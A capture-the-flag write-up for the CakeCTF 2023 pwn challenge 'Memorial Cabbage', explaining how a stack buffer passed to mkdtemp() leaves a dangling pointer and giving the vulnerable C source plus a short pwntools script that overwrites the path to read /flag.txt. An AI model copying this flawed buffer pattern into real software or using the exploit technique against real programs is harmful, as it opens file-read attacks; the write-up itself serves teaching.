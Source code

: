 ```yaml
---
title: Memorial Cabbage
type: writeup
date: 2023-11-23T23:24:31+02:00
description: Writeup for Memorial Cabbage [Cakectf 2023]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Author: ptr-yudai
Description: Memorial Cabbage Unit 3

## Intuition

We can see the below source code for the challenge. It creates a temporary directory using template ``/tmp/cabbage.XXXXXX`` and then uses it to write a memo to it (``/tmp/cabbage.XXXXXX/memo.txt``).

However, what is interesting to notice in the manpage for ``mkdtemp()`` is that you're supposed to give a modifiable buffer:

```
DESCRIPTION
       The  mkdtemp() function generates a uniquely named temporary directory from template.  The last six characters of template must be XXXXXX and these are replaced with a string that makes the directory name unique.  The directory is then created with permissions 0700.
       Since it will be modified, template must not be a string constant, but should be declared as a character array.

RETURN VALUE
       The mkdtemp() function returns a pointer to the modified template string on success, and NULL on failure, in which case errno is set appropriately.
```

The pointer returned by it will be pointing towards the buffer you gave it. If you give it a stack buffer (like in the source code provided), when the function frame is finished it should be out of scope and might get overwritten by other stack allocations. We can exploit this by writing as much content as we can until we hit the directory name that was saved on the stack, which is further used when reading/writing to the memo file. We can overwrite the directory name to ``/flag.txt\x00``, which is smaller in size than ``strlen(TEMPDIR_TEMPLATE)``. This means that the second strcpy in both ``memo_r()`` and ``memo_w()`` won't have an effect on our chosen filename, as it will copy ``/memo.txt`` somewhere after our filename and fopen will stop at the first NULL byte (provided by us in the filename).

Therefore, this should open ``/flag.txt`` and read the flag for us. We can find all the offsets needed in multiple ways, through calculating offsets by finding the addresses with GDB and then using simple substractions, or we can use De Bruijn sequences, etc.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define TEMPDIR_TEMPLATE "/tmp/cabbage.XXXXXX"

static char *tempdir;

void setup() {
  char template[] = TEMPDIR_TEMPLATE;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);

  if (!(tempdir = mkdtemp(template))) {
    perror("mkdtemp");
    exit(1);
  }
  if (chdir(tempdir) != 0) {
    perror("chdir");
    exit(1);
  }
}

void memo_r() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "r")))
    return;
  fgets(buf, sizeof(buf) - 1, fp);
  fclose(fp);

  printf("Memo: %s", buf);
}

void memo_w() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  printf("Memo: ");
  if (!fgets(buf, sizeof(buf)-1, stdin))
    exit(1);

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "w")))
    return;
  fwrite(buf, 1, strlen(buf), fp);
  fclose(fp);
}

int main() {
  int choice;

  setup();
  while (1) {
    printf("1. Write memo\n"
           "2. Read memo\n"
           "> ");
    if (scanf("%d%*c", &choice) != 1)
      break;
    switch (choice) {
      case 1: memo_w(); break;
      case 2: memo_r(); break;
      default: return 0;
    }
  }
}
```

## Solution

```py
#!/usr/bin/env python3

from pwn import *

offset_to_filename = 0xff0  # found with gdb

target = process("./cabbage")
#target = remote("memorialcabbage.2023.cakectf.com", 9001)

target.sendlineafter(b"> ", b"1")
target.sendlineafter(b"Memo: ", b"a" * offset_to_filename + b"/flag.txt\x00")

target.sendlineafter(b"> ", b"2")
target.interactive()
```

### Flag

CakeCTF{.hidden_baby_we_eating_this_cabbage_cake}

(we lost the original flag lol and are writing this waaaay later)
